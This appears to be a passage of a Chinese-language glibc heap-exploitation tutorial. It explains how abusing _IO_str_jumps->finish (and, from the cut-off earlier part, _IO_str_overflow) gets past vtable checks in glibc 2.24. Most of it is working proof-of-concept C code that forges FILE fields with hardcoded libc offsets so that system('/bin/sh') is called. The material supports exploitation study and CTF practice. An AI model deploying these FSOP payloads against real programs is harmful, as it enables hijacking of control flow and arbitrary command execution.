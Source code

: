 ```cpp
    }
    *(uint64_t *)((uint64_t)fp) = 0; // _flags
    *(uint64_t *)((uint64_t)fp + 0x20) = 0; // _IO_write_base
    *(uint64_t *)((uint64_t)fp + 0x28) = 0x7fffffffffffffff; // _IO_write_ptr
    *(uint64_t *)((uint64_t)fp + 0x40) = ((uint64_t)bin_sh_on_stack_addr - 100) / 2; // _IO_buf_end
    *(uint64_t *)((uint64_t)fp + 0xe0) = system_addr;
    *(uint64_t *)((uint64_t)fp + 0xd8) = _IO_str_jumps_addr; // vtable
    exit(0);
}
```

#### `_IO_str_jumps->finish`

同理在 `_IO_str_finish` 中也可以绕过：

```cpp
void
_IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```

绕过条件如下：

1. `fp->_IO_buf_base` 不为空；
2. `fp->_flags & _IO_USER_BUF` 为假；
   - 构造 `_flags = 0`、`_IO_buf_base = bin_sh_in_libc_addr`；
3. `((_IO_strfile *) fp)->_s._free_buffer`（`fp + 0xe8`）指向 system 地址。

测试代码如下（环境为 glibc-2.24）：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define libc_base 0x7ffff7a4e000
#define _IO_2_1_stdin_addr libc_base+0x3878c0
#define _IO_str_jumps_addr libc_base+0x384500
#define bin_sh_in_libc_addr libc_base+0x14fc3d
#define system_addr libc_base+0x3c971

int main() {
    FILE *fp;
    fp = _IO_2_1_stdin_addr;//fopen("1.txt", "rw");
    if (!fp) {
        printf("file not existed.\n");
        exit(-1);
    }
    *(uint64_t *)((uint64_t)fp) = 0; // _flags
    *(uint64_t *)((uint64_t)fp + 0x38) = bin_sh_in_libc_addr; // _IO_buf_base
    *(uint64_t *)((uint64_t)fp + 0xe8) = system_addr;
    *(uint64_t *)((uint64_t)fp + 0xd8) = _IO_str_jumps_addr; // vtable
    fclose(fp);
    return 0;
}
```
